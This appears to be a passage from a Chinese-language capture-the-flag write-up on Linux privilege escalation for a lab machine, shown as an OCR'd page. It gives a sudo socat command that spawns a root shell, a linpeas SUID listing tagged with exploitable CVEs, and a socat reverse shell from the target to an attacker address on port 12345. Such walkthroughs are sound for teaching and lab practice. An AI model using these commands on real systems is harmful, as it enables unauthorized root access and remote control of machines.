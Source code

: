 User elyana may run the following commands on elyana:
    (ALL) NOPASSWD: /usr/bin/socat

```

提权
```
-bash-4.4$ sudo socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root

```


我们查看linpease枚举的本机的所有SUID,很多都是可以拿来提权的
```
-rwsr-xr-x 1 root root 43K Sep 16  2020 /bin/mount  --->  Apple_Mac_OSX(Lion)_Kernel_xnu-1699.32.7_except_xnu-1699.24.8                                                                                                                     
-rwsr-xr-x 1 root root 63K Jun 28  2019 /bin/ping
-rwsr-xr-x 1 root root 31K Aug 11  2016 /bin/fusermount (Unknown SUID binary)
-rwsr-xr-x 1 root root 44K Mar 22  2019 /bin/su
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
-rwsr-sr-x 1 root root 59K Jan 18  2018 /bin/chmod
-rwsr-xr-x 1 root root 27K Sep 16  2020 /bin/umount  --->  BSD/Linux(08-1996)
-rwsr-xr-- 1 root messagebus 42K Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper (Unknown SUID binary)
-rwsr-xr-x 1 root root 427K Mar  4  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 10K Mar 28  2017 /usr/lib/eject/dmcrypt-get-device (Unknown SUID binary)
-rwsr-xr-x 1 root root 99K Nov 23  2018 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 111K Jul 10  2020 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
-rwsr-xr-x 1 root root 14K Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 22K Mar 27  2019 /usr/bin/pkexec  --->  Linux4.10_to_5.1.17(CVE-2019-13272)/rhel_6(CVE-2011-1485)
-rwsr-sr-x 1 root root 11M Nov 23  2018 /usr/bin/lxc (Unknown SUID binary)
-rwsr-xr-x 1 root root 19K Jun 28  2019 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 37K Mar 22  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/chfn  --->  SuSE_9.3/10
-rwsr-xr-x 1 root root 44K Mar 22  2019 /usr/bin/chsh (Unknown SUID binary)
-rwsr-xr-x 1 root root 40K Mar 22  2019 /usr/bin/newgrp  --->  HP-UX_10.20
-rwsr-xr-x 1 root root 146K Jan 31  2020 /usr/bin/sudo  --->  check_if_the_sudo_version_is_vulnerable
-rwsr-sr-x 1 root root 392K Apr  4  2018 /usr/bin/socat
-rwsr-xr-x 1 root root 75K Mar 22  2019 /usr/bin/gpasswd
-rwsr-sr-x 1 daemon daemon 51K Feb 20  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwsr-xr-x 1 root root 59K Mar 22  2019 /usr/bin/passwd  --->  Apple_Mac_OSX(03-2006)/Solaris_8/9(12-2004)/SPARC_8/9/Sun_Solaris_2.3_to_2.5.1(02-1997)

```



#  提权方法3 SUID：socat

socat同时也是一个SUID,我们依据SUID提权

在攻击机开启监听：
```socat file:`tty`,raw,echo=0 tcp-listen:12345```


在靶机执行：
```sudo /usr/bin/socat tcp-connect:10.13.21.169:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane```

```